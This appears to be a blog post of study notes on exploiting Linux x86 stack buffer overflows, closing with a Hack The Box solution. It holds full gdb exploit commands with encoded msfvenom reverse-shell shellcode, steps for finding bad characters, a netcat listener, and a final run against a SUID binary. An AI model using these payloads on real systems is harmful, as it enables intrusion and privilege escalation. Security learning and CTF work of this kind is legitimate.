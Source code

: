 ```yaml
---
layout: post
title: "overflows"
keywords: "linux, overflow"
---
```


Suppose too much data is written to a reserved memory buffer or stack that is not limited, for example. In that case, specific registers will be overwritten, which may allow code to be executed.

`RAM` describes a memory type whose memory allocations can be accessed directly and randomly by their `memory addresses`.

The `cache` is integrated into the processor and serves as a buffer, which in the best case, ensures that the processor is always fed with data and program code.

The `CU` contains the `Instruction Register (IR)`, which contains all instructions that the processor decodes and executes accordingly.

Each CPU architectures is built in a specific way, called `Instruction Set Architecture (ISA)`, which the CPU uses to execute its processes. 

> Buffer overflows are errors that allow data that is too large to fit into a buffer of the operating system's memory that is not large enough, thereby overflowing this buffer. As a result of this mishandling, the memory of other functions of the executed program is overwritten, potentially creating a security vulnerability.

### Set Intel-flavor as Default
```
echo 'set disassembly-flavor intel' > ~/.gdbinit
```

### Disassemble a Function
```
gdb -q <BINARY>
> set disassembly-flavor intel
> disassemble <FUNCTION>
> quit
```

`EIP`/`RIP` - Instruction Pointer stores the offset address of the next instruction to be executed.

The `call` instruction is used to call a function and performs two operations:
- it pushes the return address onto the stack so that the execution of the program can be continued after the function has successfully fulfilled its goal,
- it changes the `instruction pointer (EIP)` to the call destination and starting execution there.

One of the most important aspects of a stack-based buffer overflow is to `get the instruction pointer (EIP) under control, so we can tell it to which address it should jump`. This will make the EIP point to the address where our shellcode starts and causes the CPU to execute it.

### Generate Pattern & Find Offset
```bash
/opt/metasploit-framework/embedded/bin/ruby /opt/metasploit-framework/embedded/framework/tools/exploit/pattern_create.rb -l 1200 > pattern.txt

/opt/metasploit-framework/embedded/bin/ruby /opt/metasploit-framework/embedded/framework/tools/exploit/pattern_offset.rb -q 0x69423569
#[*] Exact match at offset 1036
```
or
```python
>>> from pwn import *
>>> cyclic(1200)
b'aaaabaaacaaa...'
>>> cyclic_find(b'gaaa')
24
# 64-bit
>>> cyclic(1200, n=8)
b'aaaaaaaabaaaaaaacaaaaaaa...'
```

### Overwrite EIP
```bash
gdb -q <BINARY>
> run $(python -c "print '\x55' * 1200")
# Program received signal SIGSEGV, Segmentation fault.
# 0x55555555 in ?? ()
> run "Aa0Aa1Aa2Aa3..."
> info registers eip
# eip  0x69423569  0x69423569
# [*] Exact match at offset 1036
> run $(python -c "print '\x55' * 1036 + '\x66' * 4")
> info registers eip
# eip  0x66666666  0x66666666
```

#### Size of stack space after overwriting the EIP:
```
> info proc all
```

### Determine the Length for Shellcode
```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=127.0.0.1 lport=31337 --platform linux --arch x86 --format c

# Payload size: 68 bytes 
```
 
We now know that our payload will be about 68 bytes but as a precaution we should go larger.

Often it can be useful to insert some `no operation instruction (NOPS)` before our shellcode begins so that it can be executed cleanly.
```
Buffer      = "\x55" * (1036 - 100 - 150) = 786
+ NOPs      = "\x90" * 100
+ Shellcode = "\x44" * 150
+ EIP       = "\x66" * 4
```
```
run $(python -c 'print "\x55" * (1036 - 100 - 150) + "\x90" * 100 + "\x44" * 150 + "\x66" * 4')
```

### Identification of Bad Characters
```bash
CHARS="\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"

echo $CHARS | sed 's/\\x/ /g' | wc -w
# 256
```

```
Buffer   = "\x55" * (1036 - 256) = 780
+ CHARS  = "\x00\x01\x02\x03\x04..."
+ EIP    = "\x66" * 4
```

#### Setting a Breakpoint

```
gdb -q <BINARY>
> disas <MAIN>
> break <FUNCTION>
> run $(python -c 'print "\x55" * (1036 - 256) + "\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff" + "\x66" * 4')
> x/2000xb $esp+500
```

Find from which address our "\x55" begins and contiue to the place where our CHARS start.

We see the CHARS variable `begins with "\x01" instead of "\x00"`. Note this character, remove it from our variable CHARS.

```
> run $(python -c 'print "\x55" * (1036 - 255) + "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff" + "\x66" * 4')
> x/2000xb $esp+500
```

Here it `depends on our bytes' correct order in the variable CHARS` to see if any character changes, interrupts, or skips the order. Now we recognize that `after the "\x08", we encounter the "\x00" instead of the "\x09"` as expected. This tells us that this character is not allowed here and must be removed accordingly. `Repeat this process removing all bad characters.`

```
\x00\x09\x0a\x20
```

```
> run $(python -c 'print "\x55" * (1036 - 252) + "\x01\x02\x03\x04\x05\x06\x07\x08\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff" + "\x66" * 4')
> x/2000xb $esp+500
```

### Generating Shellcode
```
msfvenom -p linux/x86/shell_reverse_tcp lhost=<LHOST> lport=<LPORT> --format c --arch x86 --platform linux --bad-chars "<chars>" --out <filename>

cat shellcode
```
```
Buffer      = "\x55" * (1036 - 124 - 95) = 817
+ NOPs      = "\x90" * 124
+ Shellcode = "\xda\xca\xba..."
+ EIP       = "\x66" * 4'
```
```
> run $(python -c 'print "\x55" * (1036 - 124 - 95) + "\x90" * 124 + "\xda\xda\xd9\x74\x24\xf4\x5a\xbf\x56\x16\x42\xf7\x31\xc9\xb1\x12\x83\xea\xfc\x31\x7a\x13\x03\x2c\x05\xa0\x02\xe1\xf2\xd3\x0e\x52\x46\x4f\xbb\x56\xc1\x8e\x8b\x30\x1c\xd0\x7f\xe5\x2e\xee\xb2\x95\x06\x68\xb4\xfd\xe7\x8a\x46\xfc\x7f\x89\x46\x84\x16\x04\xa7\xc8\x8f\x46\x79\x7b\xe3\x64\xf0\x9a\xce\xeb\x50\x34\xbf\xc4\x27\xac\x57\x34\xe7\x4e\xc1\xc3\x14\xdc\x42\x5d\x3b\x50\x6f\x90\x3c" + "\x66" * 4')
> x/2000xb $esp+500
```

### Identification of the Return Address

We now need a memory address where our NOPs are located to tell the EIP to jump to it. 

After selecting a memory address, we `replace our "\x66" which overwrites the EIP to tell it to jump to the 0xffffd64c address`. Note that the input of the address is entered backward.

```
Buffer = "\x55" * (1036 - 124 - 95) = 841
+ NOPs = "\x90" * 124
+ Shellcode = "\xda\xca\xba..."
+ EIP = "\x4c\xd6\xff\xff"
```
```
nc -nlvp 31337

gdb -q <BINARY>
> run $(python -c 'print "\x55" * (1036 - 124 - 95) + "\x90" * 124 + "\xd9\xe8\xd9\x74\x24\xf4\xba\x76\xe4\xef\x5d\x58\x31\xc9\xb1\x12\x31\x50\x17\x03\x50\x17\x83\x9e\x18\x0d\xa8\x6f\x3a\x25\xb0\xdc\xff\x99\x5d\xe0\x76\xfc\x12\x82\x45\x7f\xc1\x13\xe6\xbf\x2b\x23\x4f\xb9\x4a\x4b\x2f\x39\xad\x8a\xa7\x3b\xad\xf6\x5e\xb5\x4c\xb6\xc7\x95\xdf\xe5\xb4\x15\x69\xe8\x76\x99\x3b\x82\xe6\xb5\xc8\x3a\x9f\xe6\x01\xd8\x36\x70\xbe\x4e\x9a\x0b\xa0\xde\x17\xc1\xa3" + "\x4c\xd6\xff\xff"')
```

### Prevention Techniques and Mechanisms
- Canaries
- Address Space Layout Randomization (ASLR)
- Data Execution Prevention (DEP)

### Hack The Box Solution
```shell
# [*] Exact match at offset 2060
# Stack size 0x22000

> run $(python -c "print '\x55' * 2060 + '\x66' * 4")
> info registers eip
# eip 0x66666666

# Buffer      = "\x55" * (2060 - 124 - 95)
# + NOPs      = "\x90" * 124
# + Shellcode = "\xda\xca\xba..."
# + EIP       = "\x66" * 4'

> run $(python -c 'print "\x55" * (2060 - 124 - 95) + "\x90" * 124 + "\xd9\xe8\xd9\x74\x24\xf4\xba\x76\xe4\xef\x5d\x58\x31\xc9\xb1\x12\x31\x50\x17\x03\x50\x17\x83\x9e\x18\x0d\xa8\x6f\x3a\x25\xb0\xdc\xff\x99\x5d\xe0\x76\xfc\x12\x82\x45\x7f\xc1\x13\xe6\xbf\x2b\x23\x4f\xb9\x4a\x4b\x2f\x39\xad\x8a\xa7\x3b\xad\xf6\x5e\xb5\x4c\xb6\xc7\x95\xdf\xe5\xb4\x15\x69\xe8\x76\x99\x3b\x82\xe6\xb5\xc8\x3a\x9f\xe6\x01\xd8\x36\x70\xbe\x4e\x9a\x0b\xa0\xde\x17\xc1\xa3" + "\x66" * 4')

> x/2000xb $esp+500

# 0xff ff d7 2c

> run $(python -c 'print "\x55" * (2060 - 124 - 95) + "\x90" * 124 + "\xd9\xe8\xd9\x74\x24\xf4\xba\x76\xe4\xef\x5d\x58\x31\xc9\xb1\x12\x31\x50\x17\x03\x50\x17\x83\x9e\x18\x0d\xa8\x6f\x3a\x25\xb0\xdc\xff\x99\x5d\xe0\x76\xfc\x12\x82\x45\x7f\xc1\x13\xe6\xbf\x2b\x23\x4f\xb9\x4a\x4b\x2f\x39\xad\x8a\xa7\x3b\xad\xf6\x5e\xb5\x4c\xb6\xc7\x95\xdf\xe5\xb4\x15\x69\xe8\x76\x99\x3b\x82\xe6\xb5\xc8\x3a\x9f\xe6\x01\xd8\x36\x70\xbe\x4e\x9a\x0b\xa0\xde\x17\xc1\xa3" + "\x2c\xd7\xff\xff"')

# Binary has SUID
./leave_msg $(python -c 'print "\x55" * (2060 - 124 - 95) + "\x90" * 124 + "\xd9\xe8\xd9\x74\x24\xf4\xba\x76\xe4\xef\x5d\x58\x31\xc9\xb1\x12\x31\x50\x17\x03\x50\x17\x83\x9e\x18\x0d\xa8\x6f\x3a\x25\xb0\xdc\xff\x99\x5d\xe0\x76\xfc\x12\x82\x45\x7f\xc1\x13\xe6\xbf\x2b\x23\x4f\xb9\x4a\x4b\x2f\x39\xad\x8a\xa7\x3b\xad\xf6\x5e\xb5\x4c\xb6\xc7\x95\xdf\xe5\xb4\x15\x69\xe8\x76\x99\x3b\x82\xe6\xb5\xc8\x3a\x9f\xe6\x01\xd8\x36\x70\xbe\x4e\x9a\x0b\xa0\xde\x17\xc1\xa3" + "\x2c\xd7\xff\xff"')
```